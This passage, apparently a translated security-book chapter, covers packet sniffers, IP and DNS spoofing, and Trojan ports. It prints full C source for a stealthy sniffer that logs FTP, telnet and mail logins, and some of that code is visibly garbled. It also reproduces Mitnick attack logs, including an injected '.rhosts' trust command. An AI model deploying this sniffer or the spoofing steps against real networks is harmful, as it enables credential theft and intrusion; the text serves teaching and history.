从这些嗅探器操作概述中可以看出，数据包嗅探器是非常强大的应用程序。它们最初是为网络管理员设计的，用于监控和验证网络流量，因为它们用于读取在网络中在不同 OSI 层级别上传输的数据包。但是，与大多数安全工具一样，嗅探器也可以被用于破坏性目的。因此，尽管嗅探器有助于追踪瓶颈和错误等问题，但它们也可以用于通过收集合法的 username 和 password 来迅速入侵其他机器，从而造成破坏。

最流行的黑客嗅探器能够自动解码和转换——例如，SpyNet、EtherSpy 以及适用于 PC-DOS 系统的 Analyzer。在最好的 Internet 嗅探器中，适用于 Windows 95/98/NT 的 SpyNet（CaptureNet）可以捕获所有网络数据包；其辅助模块 PeepNet 解释这些数据包并尝试重建数据包所属的原始会话。该程序可用于将网络活动存储为带时间戳的文件，作为与刑事活动相关的证据；捕获带或不带过滤器的所有数据包；识别以太网网络中使用的协议；以及配合拨号适配器工作。这种捕获分析涉及通过拨号调制解调器连接到 Internet 生成的登录/密码序列（见图 8.16）。

在 UNIX 和 Mac 系统中常用具有类似功能的嗅探器守护进程包括 EtherReal 和 Spy.c 的各种变体。Spy.c 如下所示。

```c
Spy.c

#define MAXIMUM_CAPTURE 256
// how long before we stop watching an idle connection?
#define TIMEOUT 30
// log file name?
#define LOGNAME "tcp.log"

#include <Ing Mods>

int sock;
FILE *log;

struct connection
{
    struct connection *next;

    time_t start;
    time_t lasthit;

    unsigned long saddr;
    unsigned long daddr;
    unsigned short sport;
    unsigned short dport;

    unsigned char data[MAXIMUM_CAPTURE];
    int bytes;
};

typedef struct connection *clistptr;

clistptr head,tail;
```

```c
void add_node(unsigned long sa, unsigned long da, unsigned short sp, unsigned short dp)
{
clistptr newnode;

newnode=(clistptr)malloc(sizeof(struct connection));
newnode->saddr=sa;
newnode->daddr=da;
newnode->sport=sp;
newnode->dport=dp;
newnode->bytes=0;
newnode->next=NULL;
time(& (newnode->start));
time(& (newnode->lasthit));
if (!head)
{
head=newnode;
tail=newnode;
}
else
{
tail->next=newnode;
tail=newnode;
}
}
```

```c
char *hostlookup(unsigned long int in)
{
static char blah[1024];
struct in_addr i;
struct hostent *he;

i.s_addr=in;
he=gethostbyaddr ((char *) &i, sizeof(struct in_addr),AF_INET);
if (he == NULL) strcpy(blah, inet_ntoa(i));
else strcpy(blah, he->h_name);
return blah;
}
```

```c
char *pretty(time_t *t)
{
char *time;
time=ctime(t);
time[strlen(time)-6]=0;
return time;
}
```

```c
int remove_node(unsigned long sa, unsigned long da, unsigned short sp, unsigned short dp)
{
clistptr walker, prev;
int i=0;
int t=0;
if (head)
{
    walker=head;
    prev=head;
    while (walker)
    {
        if (sa==walker->saddr && da==walker->addr && sp==walker->sport && dp==walker->dport)
        {
            prev->next=walker->next;
            if (walker==head)
            {
                head=head->next;
                prev=NULL;
            }

            if (walker==tail)
                tail=prev;
            fprintf(log, "================================================================\n====================================================================\n");
            fprintf(log, "Time: %s    Size: %d\nPath: %s", pretty(&(walker->start)),walker->bytes,hostlookup(sa));
            fprintf(log, " -> %s [%d]\n------------------------------------------------------\n",hostlookup(da),ntohs(dp));
            fflush(log);
            for (i=0;i<bytes;i++)
            {
                if (walker->data[i]==13)
                {
                    fprintf(log, "\n");
                    t=0;
                }
                if (isprint (walker->data[i]))
                {
                    fprintf(log, "%c",walker->data[i]);
                    t++;
                }
                if (t>75)
                {
                    t=0;
                    fprintf(log, "\n");
                }
            }
            fprintf(log, "\n");
            fflush(log);
            free (walker);
            return 1;
        }
        prev=walker;
        walker=walker->next;
    }
}
```

```c
int log_node(unsigned long sa, unsigned long da, unsigned short sp, unsigned short dp, int bytes, char *buffer)
{
    clistptr walker;

    walker=head;
    while (walker)
    {

        if (sa==walker->saddr && da==walker->daddr && sp==walker->sport
        && dp==walker->dport)
        {
            time(&(walker->lasthit));

            strncpy(walker->data+walker->bytes,buffer,MAXIMUM_CAPTURE-walker->bytes);
            walker->bytes=walker->bytes+bytes;
            if (walker->bytes>=MAXIMUM_CAPTURE)
            {
                walker->bytes=MAXIMUM_CAPTURE;
                remove_node(sa,da,sp,dp);
                return 1;
            }
        }
        walker=walker->next;
    }

}

void setup_interface(char *device);
void cleanup(int);

struct etherpacket
{
    struct ethhdr eth;
    struct iphdr    ip;
    struct tcphdr tcp;
    char buff[8192];
} ep;

struct iphdr *ip;
struct tcphdr *tcp;

void cleanup(int sig)
{
    if (sock)
        close(sock);
    if (log)
    {
        fprintf(log,"\nExiting... \n");
        fclose(log);
    }
    exit(0);
}

void purgeidle(int sig)
{
    clistptr walker;
    time_t curtime;
    walker=head;
    signal(SIGALRM, purgeidle);
    alarm(5);
//      printf("Purging idle connections... \n");

    time(&curtime);
    while (walker)
    {
        if (curtime - walker->lasthit  > TIMEOUT)
        {
//          printf("Removing node: %d,%d,%d,%d\n",walker->saddr,walker->daddr,walker->sport,walker->dport);
            remove_node(walker->saddr,walker->daddr,walker->sport,walker->dport);
            walker=head;
        }
        else
            walker=walker->next;
    }
}

void setup_interface(char *device)
{
    int fd;
    struct ifreq ifr;
    int s;

    //open up our magic SOCK_PACKET
    fd=socket(AF_INET, SOCK_PACKET, htons(ETH_P_ALL));
    if(fd < 0)
    {
        perror("cant get SOCK_PACKET socket");
        exit(0);
    }

    //set our device into promiscuous mode
    strcpy(ifr.ifr_name, device);
    s=ioctl(fd, SIOCGIFFLAGS, &ifr);
    if(s < 0)
    {
        close(fd);
        perror("cant get flags");
        exit(0);
    }
    ifr.ifr_flags |= IFF_PROMISC;
    s=ioctl(fd, SIOCSIFFLAGS, &ifr);
    if(s < 0) perror("cant set promiscuous mode");

    sock=fd;
}

int filter(void)
{
    int p;
    p=0;

    if (ip->protocol != 6) return 0;

    p=0;
    if (htons(tcp->dest) == 21) p = 1;
    if (htons(tcp->dest) == 23) p = 1;
    if (htons(tcp->dest) == 109) p = 1;
    if (htons(tcp->dest) == 110) p = 1;
    if (htons(tcp->dest) == 143) p = 1;
    if (htons(tcp->dest) == 513) p = 1;
    if (!p) return 0;

    if(tcp->syn == 1)
    {
        printf("Adding node syn %d,%d,%d,%d.\n",ip->saddr,ip->daddr,tcp->source,tcp->dest);
        add_node(ip->saddr,ip->daddr,tcp->source,tcp->dest);
    }
    if (tcp->rst ==1)
    {
        printf("Removed node rst %d,%d,%d,%d.\n",ip->saddr,ip->daddr,tcp->source,tcp->dest);
        remove_node(ip->saddr,ip->daddr,tcp->source,tcp->dest);
    }
    if (tcp->fin ==1)
    {
        printf("Removed node fin %d,%d,%d,%d.\n",ip->saddr,ip->daddr,tcp->source,tcp->dest);
        remove_node(ip->saddr,ip->daddr,tcp->source,tcp->dest);
    }
    log_node(ip->saddr,ip->daddr,tcp->source,tcp->dest,htons(ip->tot_len)-sizeof(ep.ip)-sizeof(ep.tcp), ep.buff-2);
}

void main(int argc, char *argv[])
{
    int x,dn;
    clistptr c;
    head=tail=NULL;

    ip=(struct  iphdr *)(((unsigned long)&ep.ip)-2);
    tcp=(struct  tcphdr *)(((unsigned long)&ep.tcp)-2);

    if (fork() ==0)
    {
        close(0); close(1); close(2);
        setsid();
        dn=open("/dev/null",O_RDWR);
        dup2(0,dn); dup2(1,dn); dup2(2,dn);

        close(dn);
        setup_interface("eth0");

        signal(SIGHUP, SIG_IGN);
        signal(SIGINT, cleanup);
        signal(SIGTERM, cleanup);
        signal(SIGKILL, cleanup);
        signal(SIGQUIT, cleanup);
        signal(SIGALRM, purgeidle);

        log=fopen(LOGNAME, "a");
        if (log == NULL)
        {
          fprintf(stderr, "cant open log\n");
          exit(0);
        }

        alarm(5);

        while (1)
        {
          x=read(sock, (struct etherpacket *)&ep, sizeof(struct etherpacket));
          if (x>1)
          {
            filter();
          }
        }
    }
}
```

## IP 和 DNS 欺骗

黑客通常使用 IP 和 DNS 欺骗来接管受信任主机的身份，以颠覆安全并获得与目标主机的可信任通信。使用 IP 欺骗突破安全并获取网络访问权限时，黑客会先禁用然后伪装成受信任的主机。结果是，目标站点恢复了与攻击者的通信，因为消息似乎来自可信任的端口。理解 IP 欺骗的核心内部机制需要对 IP、TCP 以及握手过程有广泛的知识，这些都在前面的章节中有所涉及。

从根本上说，为了进行 IP 欺骗，入侵者必须首先发现受信任端口的 IP 地址，然后修改其数据包头部，使得非法数据包看起来像是实际来自该端口。当然，正如刚才解释的那样，为了伪装成受信任的主机，这台机器必须在过程中被禁用。因为大多数互联网络操作系统软件要求

由于防火墙不控制数据包头部中的源地址字段，源地址容易被欺骗。攻击者随后预测目标 TCP 序列号，并参与到受信任的通信中（见图 8.17）。

最常见且同样违反常规 IP 欺骗技术类型包括：主机之间数据包的拦截和修改、从目标到攻击者的数据包和/或路由重定向、目标主机响应的预测和控制，以及 TCP SYN 泛洪的各种变体。

## 案例研究

最著名的 IP 欺骗案例研究之一是凯文·米特尼克（臭名昭著的超级黑客）对富津 清（杰出的安全专家）系统的远程攻击。因此，我们将使用富津在 1995 年 1 月 10 日至 12 日于加利福尼亚州索诺玛举行的计算机滥用与异常检测会议（CMAD 3）上提交的真实 TCP 转储数据包日志来考察这一案例。

据富津所述，上述两种欺骗攻击技术被用来获取初始的受信任访问权限：IP 源地址字段欺骗和 TCP 序列响应预测。这些攻击通过攻击一台运行 Solaris 1 的无磁盘 X-terminal SPARCstation 发起。从那时起，根据富津的说法，内部通信通过可加载的内核 STREAMS 模块被劫持。

如下面的日志所示，攻击始于 *toad.com* 上特权 root 账户的可疑探测。（请记住，攻击者的意图是找到具有某种内部网络信任关系的初始目标。）正如富津指出的，从特定的服务探测可以明显看出米特尼克正在寻找这里可利用的信任关系：

```
14:09:32 toad.com# finger -l @target
14:10:21 toad.com# finger -l @server
14:10:50 toad.com# finger -lroot@server
14:11:07 toad.com# finger -l @ x-terminal
14:11:38 toad.com# showmount -e x-terminal
14:11:49 toad.com# rpcinfo -p x-terminal
14:12:05 toad.com# finger -lroot@x-terminal
```

如前几章所述，finger 一个账户（-l 表示长格式或详细输出）会返回关于该账户的有用发现信息。虽然返回的信息因守护进程而异，也因账户而异，但在某些系统中，finger 会报告用户当前是否处于会话中。其他系统返回的信息包括用户的姓名、地址和/或电话号码。finger 进程相对简单：finger 客户端向该端口发起“主动打开”并发送包含登录数据的一行查询。服务器处理查询，返回输出并关闭连接。从端口 79 接收到的输出被认为非常敏感，因为它可能揭示关于用户的详细信息。日志摘录中显示的第二个命令是 showmount（带 -e 选项）；它通常用于显示 NFS 服务器正在导出哪些文件系统。它也在网络上工作，准确表明 NFS 客户端被提供什么。rpcinfo 命令（带 -p 选项）是一个 portmap 查询。portmap 守护进程将 RPC 程序号转换为端口号。当 RPC 服务器启动时，它会向 portmap 守护进程注册。服务器告诉守护进程它监听的端口号以及它提供的 RPC 程序号。因此，portmap 守护进程知道主机上每个已注册端口的位置以及每个端口上可用的程序。

下一段日志显示的是针对服务器 513 端口的 TCP SYN 攻击的结果，攻击来自虚假地址 130.92.6.97。TCP 端口 513（login）被认为是一个“特权”端口，因此已成为地址欺骗的目标。

回顾第 1 章讨论的 SYN-ACK（三次）握手：基本上，TCP 连接请求（SYN）被发送到目标或目的计算机以进行通信请求。数据包中的源 IP 地址被欺骗或替换为互联网上未使用的地址（它属于另一台计算机）。攻击者会发送大量 TCP SYN 以占用目标系统的资源。在收到连接请求后，目标服务器分配资源以处理和跟踪这个新的通信会话，然后响应“SYN-ACK”。在这种情况下，响应被发送到被欺骗的或不存在的 IP 地址，因此不会响应任何新连接。结果，未收到对 SYN-ACK 的响应；因此，目标放弃接收响应并重新分配先前预留的资源：

```
14:18:22.516699 130.92.6.97.600 > server.login: S
1382726960:1382726960(0) win 4096
14:18:22.560609 130.92.6.97.601 > server.login: S
1382726961:1382726961(0) win 4096
14:18:22.744477 130.92.6.97.602 > server.login: S
1382726962:1382726962(0) win 4096
14:18:22.830111 130.92.6.97.603 > server.login: S
1382726963:1382726963(0) win 4096
14:18:22.886128 130.92.6.97.604 > server.login: S
1382726964:1382726964(0) win 4096
14:18:22.943514 130.92.6.97.605 > server.login: S
1382726965:1382726965(0) win 4096
14:18:23.002715 130.92.6.97.606 > server.login: S
1382726966:1382726966(0) win 4096
14:18:23.103275 130.92.6.97.607 > server.login: S
1382726967:1382726967(0) win 4096
14:18:23.162781 130.92.6.97.608 > server.login: S
1382726968:1382726968(0) win 4096
14:18:23.225384 130.92.6.97.609 > server.login: S
1382726969:1382726969(0) win 4096
14:18:23.282625 130.92.6.97.610 > server.login: S
1382726970:1382726970(0) win 4096
14:18:23.342657 130.92.6.97.611 > server.login: S
1382726971:1382726971(0) win 4096
14:18:23.403083 130.92.6.97.612 > server.login: S
1382726972:1382726972(0) win 4096
14:18:23.903700 130.92.6.97.613 > server.login: S
1382726973:1382726973(0) win 4096
14:18:24.003252 130.92.6.97.614 > server.login: S
1382726974:1382726974(0) win 4096
14:18:24.084827 130.92.6.97.615 > server.login: S
1382726975:1382726975(0) win 4096
14:18:24.142774 130.92.6.97.616 > server.login: S
1382726976:1382726976(0) win 4096
14:18:24.203195 130.92.6.97.617 > server.login: S
1382726977:1382726977(0) win 4096
14:18:24.294773 130.92.6.97.618 > server.login: S
1382726978:1382726978(0) win 4096
14:18:24.382841 130.92.6.97.619 > server.login: S
1382726979:1382726979(0) win 4096
14:18:24.443309 130.92.6.97.620 > server.login: S
1382726980:1382726980(0) win 4096
14:18:24.643249 130.92.6.97.621 > server.login: S
1382726981:1382726981(0) win 4096
14:18:24.906546 130.92.6.97.622 > server.login: S
1382726982:1382726982(0) win 4096
14:18:24.963768 130.92.6.97.623 > server.login: S
1382726983:1382726983(0) win 4096
14:18:25.022853 130.92.6.97.624 > server.login: S
1382726984:1382726984(0) win 4096
14:18:25.153536 130.92.6.97.625 > server.login: S
1382726985:1382726985(0) win 4096
14:18:25.400869 130.92.6.97.626 > server.login: S
1382726986:1382726986(0) win 4096
14:18:25.483127 130.92.6.97.627 > server.login: S
1382726987:1382726987(0) win 4096
14:18:25.599582 130.92.6.97.628 > server.login: S
1382726988:1382726988(0) win 4096
14:18:25.653131 130.92.6.97.629 > server.login: S
1382726989:1382726989(0) win 4096
```

富津接着识别出从 apollo.it.luc.edu 到 Xterminal.shell 的 20 次连接尝试，并说明了这些尝试的目的，即揭示 X-terminal TCP 编号序列的行为。为了避免淹没 X-terminal 的连接队列，每个连接的初始序列号递增 1，表明 SYN 数据包未被生成。注意 X-terminal SYN-ACK 数据包类似的序列递增：

```
14:18:25.906002 apollo.it.luc.edu.1000 > x-terminal.shell: S 1382726990:1382726990(0) win 4096
14:18:26.094731 x-terminal.shell > apollo.it.luc.edu.1000: S 2021824000:2021824000(0) ack 1382726991 win 4096
14:18:26.172394 apollo.it.luc.edu.1000 > x-terminal.shell: R 1382726991:1382726991(0) win 0
14:18:26.507560 apollo.it.luc.edu.999 > x-terminal.shell: S 1382726991:1382726991(0) win 4096
14:18:26.694691 x-terminal.shell > apollo.it.luc.edu.999: S 2021952000:2021952000(0) ack 1382726992 win 4096
14:18:26.775037 apollo.it.luc.edu.999 > x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:26.775395 apollo.it.luc.edu.999 > x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:27.014050 apollo.it.luc.edu.998 > x-terminal.shell: S 1382726992:1382726992(0) win 4096
14:18:27.174846 x-terminal.shell > apollo.it.luc.edu.998: S 2022080000:2022080000(0) ack 1382726993 win 4096
14:18:27.251840 apollo.it.luc.edu.998 > x-terminal.shell: R 1382726993:1382726993(0) win 0
14:18:27.544069 apollo.it.luc.edu.997 > x-terminal.shell: S 1382726993:1382726993(0) win 4096
14:18:27.714932 x-terminal.shell > apollo.it.luc.edu.997: S 2022208000:2022208000(0) ack 1382726994 win 4096
14:18:27.794456 apollo.it.luc.edu.997 > x-terminal.shell: R 1382726994:1382726994(0) win 0
14:18:28.054114 apollo.it.luc.edu.996 > x-terminal.shell: S 1382726994:1382726994(0) win 4096
14:18:28.224935 x-terminal.shell > apollo.it.luc.edu.996: S 2022336000:2022336000(0) ack 1382726995 win 4096
14:18:28.305578 apollo.it.luc.edu.996 > x-terminal.shell: R 1382726995:1382726995(0) win 0
14:18:28.564333 apollo.it.luc.edu.995 > x-terminal.shell: S 1382726995:1382726995(0) win 4096
14:18:28.734953 x-terminal.shell > apollo.it.luc.edu.995: S 2022464000:2022464000(0) ack 1382726996 win 4096
14:18:28.811591 apollo.it.luc.edu.995 > x-terminal.shell: R 1382726996:1382726996(0) win 0
14:18:29.074990 apollo.it.luc.edu.994 > x-terminal.shell: S 1382726996:1382726996(0) win 4096
14:18:29.274572 x-terminal.shell > apollo.it.luc.edu.994: S 2022592000:2022592000(0) ack 1382726997 win 4096
14:18:29.354139 apollo.it.luc.edu.994 > x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.354616 apollo.it.luc.edu.994 > x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.584705 apollo.it.luc.edu.993 > x-terminal.shell: S 1382726997:1382726997(0) win 4096
14:18:29.755054 x-terminal.shell > apollo.it.luc.edu.993: S 2022720000:2022720000(0) ack 1382726998 win 4096
14:18:29.840372 apollo.it.luc.edu.993 > x-terminal.shell: R 1382726998:1382726998(0) win 0
14:18:30.094299 apollo.it.luc.edu.992 > x-terminal.shell: S
```

401


1382726998:1382726998(0) win 4096
14:18:30.265684 x-terminal.shell > apollo.it.luc.edu.992: S
2022848000:2022848000(0) ack 1382726999 win 4096
14:18:30.342506 apollo.it.luc.edu.992 > x-terminal.shell: R
1382726999:1382726999(0) win 0
14:18:30.604547 apollo.it.luc.edu.991 > x-terminal.shell: S
1382726999:1382726999(0) win 4096
14:18:30.775232 x-terminal.shell > apollo.it.luc.edu.991: S
2022976000:2022976000(0) ack 1382727000 win 4096
14:18:30.852084 apollo.it.luc.edu.991 > x-terminal.shell: R
1382727000:1382727000(0) win 0

14:18:31.115036 apollo.it.luc.edu.990 > x-terminal.shell: S
1382727000:1382727000(0) win 4096
14:18:31.284694 x-terminal.shell > apollo.it.luc.edu.990: S
2023104000:2023104000(0) ack 1382727001 win 4096
14:18:31.361684 apollo.it.luc.edu.990 > x-terminal.shell: R
1382727001:1382727001(0) win 0
14:18:31.627817 apollo.it.luc.edu.989 > x-terminal.shell: S
1382727001:1382727001(0) win 4096
14:18:31.795260 x-terminal.shell > apollo.it.luc.edu.989: S
2023232000:2023232000(0) ack 1382727002 win 4096
14:18:31.873056 apollo.it.luc.edu.989 > x-terminal.shell: R
1382727002:1382727002(0) win 0
14:18:32.164597 apollo.it.luc.edu.988 > x-terminal.shell: S
1382727002:1382727002(0) win 4096

14:18:32.335373 x-terminal.shell > apollo.it.luc.edu.988: S
2023360000:2023360000(0) ack 1382727003 win 4096
14:18:32.413041 apollo.it.luc.edu.988 > x-terminal.shell: R
1382727003:1382727003(0) win 0
14:18:32.674779 apollo.it.luc.edu.987 > x-terminal.shell: S
1382727003:1382727003(0) win 4096
14:18:32.845373 x-terminal.shell > apollo.it.luc.edu.987: S
2023488000:2023488000(0) ack 1382727004 win 4096
14:18:32.922158 apollo.it.luc.edu.987 > x-terminal.shell: R
1382727004:1382727004(0) win 0
14:18:33.184839 apollo.it.luc.edu.986 > x-terminal.shell: S
1382727004:1382727004(0) win 4096

14:18:33.355505 x-terminal.shell > apollo.it.luc.edu.986: S
2023616000:2023616000(0) ack 1382727005 win 4096
14:18:33.435221 apollo.it.luc.edu.986 > x-terminal.shell: R
1382727005:1382727005(0) win 0
14:18:33.695170 apollo.it.luc.edu.985 > x-terminal.shell: S
1382727005:1382727005(0) win 4096
14:18:33.985966 x-terminal.shell > apollo.it.luc.edu.985: S
2023744000:2023744000(0) ack 1382727006 win 4096
14:18:34.062407 apollo.it.luc.edu.985 > x-terminal.shell: R
1382727006:1382727006(0) win 0
14:18:34.204953 apollo.it.luc.edu.984 > x-terminal.shell: S
1382727006:1382727006(0) win 4096
14:18:34.375641 x-terminal.shell > apollo.it.luc.edu.984: S
2023872000:2023872000(0) ack 1382727007 win 4096
14:18:34.452830 apollo.it.luc.edu.984 > x-terminal.shell: R
1382727007:1382727007(0) win 0

14:18:34.714996 apollo.it.luc.edu.983 > x-terminal.shell: S
1382727007:1382727007(0) win 4096
14:18:34.885071 x-terminal.shell > apollo.it.luc.edu.983: S
2024000000:2024000000(0) ack 1382727008 win 4096
14:18:34.962030 apollo.it.luc.edu.983 > x-terminal.shell: R
1382727008:1382727008(0) win 0
14:18:35.225869 apollo.it.luc.edu.982 > x-terminal.shell: S
1382727008:1382727008(0) win 4096

14:18:35.395723 x-terminal.shell > apollo.it.luc.edu.982: S
2024128000:2024128000(0) ack 1382727009 win 4096
14:18:35.472150 apollo.it.luc.edu.982 > x-terminal.shell: R
1382727009:1382727009(0) win 0
14:18:35.735077 apollo.it.luc.edu.981 > x-terminal.shell: S
1382727009:1382727009(0) win 4096
14:18:35.905684 x-terminal.shell > apollo.it.luc.edu.981: S
2024256000:2024256000(0) ack 1382727010 win 4096
14:18:35.983078 apollo.it.luc.edu.981 > x-terminal.shell: R
1382727010:1382727010(0) win 0

接下来我们看到的是来自伪装服务器（login）向 X-terminal 发起的伪造连接请求，攻击者预测了序列号。这是基于之前对 X-terminal 的 TCP 序列号的发现。通过这种欺骗手段，攻击者（在本例中为 Mitnick）控制了从伪装成 server.login 的 X-terminal.shell 到 X-terminal 的通信：

14:18:36.245045 server.login > x-terminal.shell: S
1382727010:1382727010(0) win 4096
14:18:36.755522 server.login > x-terminal.shell: . ack 2024384001 win 4096
14:18:37.265404 server.login > x-terminal.shell: P 0:2(2) ack 1 win 4096
14:18:37.775872 server.login > x-terminal.shell: P 2:7(5) ack 1 win 4096
14:18:38.287404 server.login > x-terminal.shell: P 7:32(25) ack 1 win 4096
14:18:37 server# rsh x-terminal "echo + + >>/.rhosts"
14:18:41.347003 server.login > x-terminal.shell: . ack 2 win 4096
14:18:42.255978 server.login > x-terminal.shell: . ack 3 win 4096
14:18:43.165874 server.login > x-terminal.shell: F 32:32(0) ack 3 win 4096
14:18:52.179922 server.login > x-terminal.shell: R
1382727043:1382727043(0) win 4096
14:18:52.236452 server.login > x-terminal.shell: R
1382727044:1382727044(0) win 4096

然后连接被重置，以清空 server.login 的连接队列，以便再次接受连接：

14:18:52.298431 130.92.6.97.600 > server.login: R
1382726960:1382726960(0) win 4096
14:18:52.363877 130.92.6.97.601 > server.login: R
1382726961:1382726961(0) win 4096
14:18:52.416916 130.92.6.97.602 > server.login: R
1382726962:1382726962(0) win 4096
14:18:52.476873 130.92.6.97.603 > server.login: R
1382726963:1382726963(0) win 4096
14:18:52.536573 130.92.6.97.604 > server.login: R
1382726964:1382726964(0) win 4096
14:18:52.600899 130.92.6.97.605 > server.login: R
1382726965:1382726965(0) win 4096
14:18:52.660231 130.92.6.97.606 > server.login: R
1382726966:1382726966(0) win 4096
14:18:52.717495 130.92.6.97.607 > server.login: R
1382726967:1382726967(0) win 4096
14:18:52.776502 130.92.6.97.608 > server.login: R
1382726968:1382726968(0) win 4096
14:18:52.836536 130.92.6.97.609 > server.login: R
1382726969:1382726969(0) win 4096
14:18:52.937317 130.92.6.97.610 > server.login: R
1382726970:1382726970(0) win 4096
14:18:52.996777 130.92.6.97.611 > server.login: R
1382726971:1382726971(0) win 4096
14:18:53.056758 130.92.6.97.612 > server.login: R
1382726972:1382726972(0) win 4096
14:18:53.116850 130.92.6.97.613 > server.login: R
1382726973:1382726973(0) win 4096
14:18:53.177515 130.92.6.97.614 > server.login: R
1382726974:1382726974(0) win 4096
14:18:53.238496 130.92.6.97.615 > server.login: R
1382726975:1382726975(0) win 4096
14:18:53.297163 130.92.6.97.616 > server.login: R
1382726976:1382726976(0) win 4096
14:18:53.365988 130.92.6.97.617 > server.login: R
1382726977:1382726977(0) win 4096
14:18:53.437287 130.92.6.97.618 > server.login: R
1382726978:1382726978(0) win 4096
14:18:53.496789 130.92.6.97.619 > server.login: R
1382726979:1382726979(0) win 4096
14:18:53.556753 130.92.6.97.620 > server.login: R
1382726980:1382726980(0) win 4096
14:18:53.616954 130.92.6.97.621 > server.login: R
1382726981:1382726981(0) win 4096
14:18:53.676828 130.92.6.97.622 > server.login: R
1382726982:1382726982(0) win 4096
14:18:53.736734 130.92.6.97.623 > server.login: R
1382726983:1382726983(0) win 4096
14:18:53.796732 130.92.6.97.624 > server.login: R
1382726984:1382726984(0) win 4096
14:18:53.867543 130.92.6.97.625 > server.login: R
1382726985:1382726985(0) win 4096
14:18:53.917466 130.92.6.97.626 > server.login: R
1382726986:1382726986(0) win 4096
14:18:53.976769 130.92.6.97.627 > server.login: R
1382726987:1382726987(0) win 4096
14:18:54.039039 130.92.6.97.628 > server.login: R
1382726988:1382726988(0) win 4096
14:18:54.097093 130.92.6.97.629 > server.login: R
1382726989:1382726989(0) win 4096


**图 8.18** Windows IP Spoofer。

在通过 IP 地址欺骗获得 root 权限后不久，Mitnick 编译了一个内核模块并将其强制加载到现有的 STREAMS 堆栈上，该模块旨在控制一个 tty 设备。

通常，在完成一次入侵攻击后，黑客会在系统中编译一个后门，以便于未来的入侵和远程控制。理论上，IP 欺骗之所以可能，是因为可信服务仅依赖于基于网络地址的身份验证。PC-DOS 系统常见的欺骗软件包括 Command IP Spoofe9、IP Spoofe9（如图 8.18 所示）和 Domain WinSpoof；Erect 常用于 UNIX 系统。

最近，人们投入了大量精力研究 DNS 欺骗。欺骗 DNS 缓存服务器使攻击者能够将访客重定向到除目标网站外的其他位置。请记住，域名是一个基于字符的句柄，用于标识一个或多个 IP 地址。域名服务（DNS）将这些域名转换回各自的 IP 地址。（这项服务的存在原因很简单，即字母域名比 IP 地址更容易记忆。）还要记住，通过 Internet 传输的数据报使用地址；因此，每次指定域名时，必须有一个 DNS 服务守护进程将名称转换为相应的 IP 地址。基本上，通过在浏览器中输入一个域名，例如 TigerTools.net，DNS 服务器会将这个字母域名映射到一个 IP 地址，然后你就会跳转过去查看该网站。

使用这种形式的欺骗，攻击者强制 DNS“客户端”生成一个对“服务器”的请求，然后欺骗来自该“服务器”的响应。这起作用的原因之一是大多数 DNS 服务器支持“递归”查询。从根本上说，你可以向任何 DNS 服务器发送请求，要求它执行名称到地址的转换。为了满足请求，该 DNS 服务器会向合适的服务器发送正确的查询以获取此信息。然而，黑客技术使入侵者能够预测受害服务器将发出什么请求，从而通过插入虚假的网站来欺骗响应。如果执行成功，欺骗的回复将在实际响应到达之前到达。这对黑客很有用，因为 DNS 服务器会在指定时间内“缓存”信息。如果入侵者能够成功欺骗诸如 www.yahoo.com 的响应，那么该 DNS 服务器的任何合法用户都将被重定向到入侵者的网站。


Johannes Erdfelt 是一名安全专家和黑客爱好者，他将 DNS 欺骗分为三种常规技术：

- **技术 1：带有不相关附加数据的 DNS 缓存。** 这是针对 IRC 服务器进行 DNS 欺骗最原始且使用最广泛的攻击方式。攻击者运行一个被黑客入侵的 DNS 服务器，以便让受害者的域名委派给他/她。关于受害者域名的查询被发送到该被入侵的 DNS 服务器。当查询最终到达被入侵的 DNS 服务器时，它会回复，将虚假数据放置在缓存的应答（Answer）、授权（Authority）或附加（Additional）部分中。
- **技术 2：通过相关数据进行 DNS 缓存。** 在这种变体中，黑客使用技术 1 的方法论，但修改回复信息使其与原始查询相关（例如，如果原始查询是 my.antispoof.site.com，则指向要缓存的虚假信息）。
- **技术 3：DNS ID 预测。** 每个 DNS 数据包都关联有一个 16 位 ID 号，用于确定原始查询是什么。对于著名的 DNS 守护进程 BIND 而言，这个编号每次查询增加 1。可以在此发起预测攻击——基本上是一个竞态条件，旨在在正确的 DNS 服务器响应之前进行回复。

# 特洛伊木马感染

特洛伊木马可以定义为一种恶意的、破坏安全性的程序，通常伪装成有用的东西，例如实用程序、笑话或游戏下载。正如前面章节所述，特洛伊木马通常用于在系统的安全结构中集成后门或“漏洞”。目前，特洛伊木马感染的传播是出于使用端口的技术必要性的结果。表 8.1 列出了当前最流行的特洛伊木马及其使用的端口。请注意，较低端口通常被窃取密码的特洛伊木马使用，它们要么通过电子邮件发送给攻击者，要么隐藏在 FTP 目录中。较高端口通常被可通过互联网、网络、VPN 或拨号访问连接的远程访问特洛伊木马使用。

**表 8.1 常用端口和特洛伊木马**

| 端口号 | 特洛伊木马名称 |
| :--- | :--- |
| 端口 21 | Back Construction, Blade Runner, Doly Trojan, Fore, FTP Trojan, Invisible FTP, Larva, WebEx, WinCrash, lamer_FTP |
| 端口 25 | Ajan, Antigen, Email Password Sender, Haebu Coceda (= Naebi), Happy 99, Kuang2, ProMail Trojan, Shritizi, lamer_SMTP, Stealth, Tapiras, Terminator, WinPC, WinSpy |
| 端口 31 | Agent 31, Hackers Paradise, Masters Paradise |
| 端口 41 | DeepThroat 1.0-3.1 + Mod (Foreplay) |
| 端口 48 | DRAT v 1.0-3.0b |
| 端口 50 | DRAT |
| 端口 59 | DMSetup |
| 端口 79 | Firehotker |
| 端口 80 | Executor, RingZero |
| 端口 99 | Hidden Port |
| 端口 110 | ProMail Trojan |
| 端口 113 | Kazimas |
| 端口 119 | Happy 99 |
| 端口 121 | JammerKillah |
| 端口 137 | NetBIOS Name (DoS attack) |
| 端口 138 | NetBIOS Datagram (DoS attack) |
| 端口 139 (TCP) | NetBIOS session (DoS attacks) |
| 端口 139 (UDP) | NetBIOS session (DoS attacks) |
| 端口 146 (TCP) | Infector 1.3 |
| 端口 421 (TCP) | Wrappers |
| 端口 456 (TCP) | Hackers Paradise |
| 端口 531 (TCP) | Rasmin |
| 端口 555 (UDP) | Ini-Killer, NeTAdmin, Phase Zero, Stealth Spy |
| 端口 555 (TCP) | Phase Zero |
| 端口 666 (UDP) | Attack FTP, Back Construction, Cain & Abel, Satan Backdoor, ServeU, Shadow Phyre |
| 端口 911 | Dark Shadow |
| 端口 999 | DeepThroat, WinSatan |
